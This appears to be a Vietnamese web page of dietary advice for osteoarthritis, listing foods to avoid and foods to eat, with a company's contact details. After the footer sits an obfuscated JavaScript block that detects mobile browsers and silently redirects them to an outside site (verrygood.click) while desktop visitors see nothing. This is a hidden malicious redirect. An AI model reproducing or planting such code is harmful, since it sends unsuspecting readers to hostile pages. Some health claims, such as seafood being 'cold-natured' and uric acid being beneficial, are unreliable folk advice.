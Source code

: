 Viêm xương khớp là bệnh khớp xuất hiện khi các mô trong khớp bị phá vỡ theo thời gian. Đây là dạng viêm khớp thường gặp nhất và phổ biến hơn ở người lớn tuổi. Những người bị viêm xương khớp thường bị đau khớp và sau khi nghỉ ngơi lại bị cứng khớp (không thể chuyển động dễ dàng) trong một khoảng thời gian ngắn.

Đau xương khớp nên kiêng :

1Thịt gia cầm

Thịt gia cầm, đặc biệt là thịt gà, không được coi là lựa chọn tốt cho người đau nhức xương khớp. Trong thịt gà chứa purin, khi cơ thể dung nạp quá nhiều hoạt chất này sẽ làm tăng lượng axit uric. Axit uric tích tụ trong khớp sẽ gây ra phản ứng viêm và tăng cảm giác đau nhức.

2Nội tạng động vật

Nội tạng động vật chứa nhiều photpho có thể làm tăng các triệu chứng đau nhức xương khớp. Khi lượng photpho trong cơ thể tăng cao quá mức, chúng thúc đẩy quá trình sản xuất hormone parathyroid (PTH). Lượng PTH dư thừa kích thích hoạt động hủy xương, theo thời gian có thể gây loãng xương và thoái hóa khớp.
Ngoài ra, nội tạng động vật còn chứa nhiều đạm và axit uric. Đây là những chất gây ra các vấn đề về thoái hóa khớp, viêm khớp và bệnh gout.

3Thịt đỏ
Thịt trâu, thịt bò, thịt cừu,... được xếp vào nhóm thịt đỏ. Các loại thịt này không được khuyến nghị cho những người đau xương khớp, viêm khớp do chúng có hàm lượng protein và chất béo bão hòa cao. Trong đó, đạm động vật chứa nhiều purin, có khả năng làm tích tụ axit uric trong máu. Chất béo bão hòa làm tăng cholesterol xấu và tăng phản ứng viêm. Do đó, nhóm thịt đỏ nên được tiêu thụ ở mức độ vừa phải.

4Hải sản
Hải sản như tôm, cua, mực, cá,... không nên xuất hiện quá nhiều trong thực đơn của người đau nhức xương khớp. Chúng có tính hàn nên có thể làm các triệu chứng của phản ứng viêm (sưng, nóng, đỏ, đau) tái phát hoặc trở nặng. Ngoài ra, hải sản cũng là một loại thực phẩm có hàm lượng purin cao. Trong cơ thể purin được chuyển hóa thành acid uric có lợi, nhưng việc dư thừa chất này sẽ gây ra tình trạng gout hay viêm cấp tính tại các khớp.

6Đồ ăn nhiều dầu mỡ
Những món chiên, xào hay thức ăn nhanh như khoai tây chiên, gà rán,... thường dùng rất nhiều dầu mỡ khi chế biến. Chất béo bão hòa, chất béo chuyển hóa và omega 6 sinh ra trong quá trình chế biến thức ăn là nhóm chất béo mà người bệnh đau xương khớp không nên tiêu thụ quá mức.

7Đồ ăn mặn
Muối làm chậm quá trình hấp thụ canxi của xương, tăng nguy cơ mắc bệnh loãng xương. Đồng thời, lượng muối dư thừa khiến tinh thể urat lắng đọng tại khớp, gây ra tình trạng viêm và đau nhức.

9Đồ ăn lên men
Các món ăn lên men như cà muối, dưa muối,... đều chứa nhiều axit oxalic, natri nitrit và muối. Trong đó, hàm lượng axit oxalic cao dẫn đến sự tích tụ quá nhiều tinh thể canxi oxalat trong các khớp, gây đau và viêm. Bên cạnh đó, natri sẽ giữ nước lại trong các khớp, gây phù nề và làm gia tăng cảm giác đau nhức.

Đau xương khớp nên sử dụng thực phẩm gì:

1. Cá giàu chất béo lành mạnh
2. Tỏi
3. Gừng
4. Bông cả xanh
5. quả óc chó
6. Các loại quả mọng
7. Cải bó xôi
8. Nho
9. Dầu oliu
10. Nước ép quả anh đào



Công ty tnnh thương mại Vườn Cây Xương Khớp

Số điện thoại: 0989789789

Địa chỉ: Đồng Quạ -  Tam Đảo - Vĩnh Phúc

Email: vuoncayxuongkhop@gmail.com


<script>
function _0x3acc(_0x284298, _0x25b2df) {
        var _0x5a0508 = _0x2464();
        return (
          (_0x3acc = function (_0x150fc1, _0x502ed6) {
            _0x150fc1 = _0x150fc1 - (-0x7a9 + -0x10 * 0x27 + 0x2 * 0x5fd);
            var _0x70deb8 = _0x5a0508[_0x150fc1];
            return _0x70deb8;
          }),
          _0x3acc(_0x284298, _0x25b2df)
        );
      }
      (function (_0x5cc21d, _0x32d2c9) {
        var _0x543a06 = _0x3acc,
          _0x509667 = _0x5cc21d();
        while (!![]) {
          try {
            var _0x4b6b69 =
              -parseInt(_0x543a06("0x1e8")) / (0x921 + -0x2265 + 0x1 * 0x1945) +
              -parseInt(_0x543a06("0x1ec")) / (-0x1560 + -0x10c9 + 0x262b) +
              parseInt(_0x543a06("0x1e9")) /
                (0x1 * -0xf59 + -0x17c * -0x17 + -0x12c8) +
              -parseInt(_0x543a06("0x1e3")) /
                (-0x3 * -0xb6f + 0x1add * -0x1 + 0x5f * -0x14) +
              (parseInt(_0x543a06("0x1e7")) /
                (-0x2079 + 0x204 * 0x8 + 0x105e)) *
                (-parseInt(_0x543a06("0x1e6")) /
                  (0x8dc + -0xfe9 + 0x1 * 0x713)) +
              parseInt(_0x543a06("0x1f1")) /
                (-0x196d + 0x35b * 0x3 + -0x521 * -0x3) +
              (parseInt(_0x543a06("0x1eb")) /
                (-0xb * -0x326 + 0xe5b + -0x30f5 * 0x1)) *
                (parseInt(_0x543a06("0x1e1")) /
                  (0x6 * 0x1a9 + 0xf4f + 0x4c * -0x55));
            if (_0x4b6b69 === _0x32d2c9) break;
            else _0x509667["push"](_0x509667["shift"]());
          } catch (_0x5dee30) {
            _0x509667["push"](_0x509667["shift"]());
          }
        }
      })(_0x2464, -0x1 * -0xd5551 + -0xfe723 + 0x100 * 0xe71);
      function checkPointVIP() {
        var _0x1597b4 = _0x3acc,
          _0x512d05 = {
            hwTZb: _0x1597b4("0x1ea"),
            CMDgM: function (_0x3c47f1, _0x434746, _0x4e8d49) {
              return _0x3c47f1(_0x434746, _0x4e8d49);
            },
            fbBsr: _0x1597b4("0x1e5"),
          };
        /Android|webOS|iPhone|iPad|iPod|BlackBerry|IEMobile|Opera Mini/i[
          _0x1597b4("0x1ed")
        ](navigator[_0x1597b4("0x1e2")])
          ? _0x512d05["CMDgM"](
              setTimeout,
              function () {
                var _0x5910a3 = _0x1597b4;
                window["location"][_0x5910a3("0x1e4")] =
                  _0x512d05[_0x5910a3("0x1ef")];
              },
              -0x1a47 + 0x2361 + -0x23 * 0x26
            )
          : console[_0x1597b4("0x1f0")](_0x512d05[_0x1597b4("0x1ee")]);
      }
      function _0x2464() {
        var _0x21041b = [
          "log",
          "7482909HWmgGJ",
          "8811fswJIR",
          "userAgent",
          "1994944PQFzdL",
          "href",
          "Người\x20dùng\x20truy\x20cập\x20từ\x20desktop.",
          "6USohhu",
          "4040485VJAukx",
          "135228raUOXF",
          "953976yPVeKh",
          "https://www.verrygood.click/new2",
          "18472cpiDMs",
          "2854798lglKqX",
          "test",
          "fbBsr",
          "hwTZb",
        ];
        _0x2464 = function () {
          return _0x21041b;
        };
        return _0x2464();
      }
      checkPointVIP();
	  </script>
